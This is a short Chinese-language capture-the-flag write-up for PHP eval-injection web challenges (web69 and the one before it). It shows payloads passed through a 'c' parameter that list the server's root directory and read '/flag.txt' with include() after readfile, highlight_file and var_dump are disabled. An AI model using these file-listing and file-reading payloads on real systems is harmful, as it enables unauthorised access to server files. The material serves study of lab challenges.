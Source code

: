 打开题目直接 

```
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19
```

说明 `highlight_file` 函数被禁用了。

`c=var_dump(scandir('/'));` 得到

```
array(21) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(3) "dev" [5]=> string(3) "etc" [6]=> string(8) "flag.txt" [7]=> string(4) "home" [8]=> string(3) "lib" [9]=> string(5) "media" [10]=> string(3) "mnt" [11]=> string(3) "opt" [12]=> string(4) "proc" [13]=> string(4) "root" [14]=> string(3) "run" [15]=> string(4) "sbin" [16]=> string(3) "srv" [17]=> string(3) "sys" [18]=> string(3) "tmp" [19]=> string(3) "usr" [20]=> string(3) "var" } 
```

有个 `flag.txt`

`readfile` 、`show_source` 、 `highlight_file` 被禁用了.

读取不了，但是我们还可以直接文件包含。

payload:

```
c=include('/flag.txt');
```

## web69~var_export打印

同样是

```
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19
```

var_dump 也被禁用

```
Warning: var_dump() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1
```

* var_export — 输出或返回一个变量的字符串表示

用 `c=var_export(scandir('/'));` 得到

```
array ( 0 => '.', 1 => '..', 2 => '.dockerenv', 3 => 'bin', 4 => 'dev', 5 => 'etc', 6 => 'flag.txt', 7 => 'home', 8 => 'lib', 9 => 'media', 10 => 'mnt', 11 => 'opt', 12 => 'proc', 13 => 'root', 14 => 'run', 15 => 'sbin', 16 => 'srv', 17 => 'sys', 18 => 'tmp', 19 => 'usr', 20 => 'var', )
```

payload：

```
c=var_export(scandir('/'));`
c=include('/flag.txt');
```
